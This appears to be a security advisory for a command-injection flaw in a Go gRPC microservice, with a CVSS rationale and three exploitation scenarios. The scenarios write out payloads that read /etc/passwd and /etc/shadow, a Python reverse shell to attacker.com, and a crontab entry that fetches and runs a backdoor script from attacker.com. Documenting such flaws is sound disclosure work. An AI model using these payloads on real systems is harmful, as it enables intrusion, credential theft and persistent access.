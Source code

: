 This issue affects production systems running Go 1.17+ on Linux servers orchestrated via Kubernetes. By sending specially crafted gRPC requests containing shell metacharacters (e.g., `;`, `|`, `&`), an attacker could inject additional commands that execute with the privileges of the microservice process, potentially leading to system compromise, unauthorized data access, and service disruption.

# CVSS
**Score**: 8.7 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H \
**Severity**: High

The High severity rating (8.7) is justified by the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability is in a gRPC microservice accessible over the network, allowing remote exploitation.

- **Low Attack Complexity (AC:L)**: Exploiting this vulnerability is straightforward and requires minimal expertise. An attacker simply needs to send malicious input containing shell metacharacters to the vulnerable endpoint.

- **Low Privileges Required (PR:L)**: Some level of privileges is likely required to access the administrative gRPC endpoint, but not administrative privileges.

- **No User Interaction (UI:N)**: The vulnerability can be exploited without any action from legitimate users.

- **Unchanged Scope (S:U)**: The vulnerability affects only the vulnerable component itself.

- **High Impact on Confidentiality, Integrity, and Availability (C:H/I:H/A:H)**: Successful exploitation gives the attacker the ability to execute arbitrary commands, potentially leading to full system compromise. This includes reading sensitive files (high confidentiality impact), modifying system data (high integrity impact), and disrupting services by terminating processes or consuming resources (high availability impact).

The combination of network exploitability, low complexity, minimal privilege requirements, and high impacts across all security dimensions results in this High severity rating.

# Exploitation Scenarios
**Scenario 1: Sensitive Data Exfiltration**
An attacker with access to the gRPC service sends a request to the vulnerable administrative endpoint with the payload: `ls -la; cat /etc/passwd; cat /etc/shadow`. The microservice executes this as a shell command, returning the directory listing and contents of sensitive system files. The attacker progressively explores the filesystem, looking for configuration files, environment variables, or credentials that could be used for further compromise.

**Scenario 2: Reverse Shell Establishment**
The attacker sends a more sophisticated payload: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'`. This establishes a reverse shell connection to the attacker's server, giving interactive command-line access to the container environment. From this position, the attacker can attempt lateral movement to other services in the Kubernetes cluster.

**Scenario 3: Infrastructure Reconnaissance and Persistence**
An attacker uses a series of commands to gather information about the infrastructure: `env; ip addr; kubectl get pods --all-namespaces`. After mapping out the environment, they establish persistence by adding a crontab entry that periodically connects back to their command and control server: `(crontab -l 2>/dev/null; echo "*/5 * * * * curl -s https://attacker.com/backdoor.sh | bash") | crontab -`. This ensures continued access even if the vulnerable pod restarts.
